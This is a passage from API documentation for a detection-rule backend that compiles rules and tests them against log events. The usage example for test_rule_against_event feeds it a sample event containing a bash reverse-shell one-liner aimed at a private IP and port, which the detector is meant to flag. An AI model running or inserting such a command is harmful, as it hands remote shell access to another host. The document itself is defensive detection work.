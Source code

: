 **Example:**

```python
backend = SimpleEvalBackend()
rule_collection = MockRuleCollection()
compiled_rules = backend.compile(rule_collection)
```

##### test_rule_against_event(rule_function, event) → Optional[Alert]

Test a compiled rule against an event.

**Parameters:**

- `rule_function` (`Callable`): Compiled rule function
- `event` (`Dict[str, Any]`): Event data to test

**Returns:**

- `Optional[Alert]`: Alert object if rule matches, None otherwise

**Example:**

```python
event = {
    "MESSAGE": "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1",
    "_COMM": "bash"
}

for rule_func in compiled_rules:
    alert = backend.test_rule_against_event(rule_func, event)
    if alert:
        print(f"Alert: {alert.rule_title}")
```

#### Properties

- **restrictiveness** (`RestrictivenessLevel`): Current restrictiveness level
- **field_mappings** (`Dict[str, str]`): Field mappings dictionary
- **pipeline**: Processing pipeline (not used)

---

### RestrictivenessLevel

Enumeration of restrictiveness levels for rule matching.

```python
class RestrictivenessLevel(Enum):
    PERMISSIVE = "permissive"
    BALANCED = "balanced"
    RESTRICTIVE = "restrictive"
    ULTRA_RESTRICTIVE = "ultra"
```

#### Values
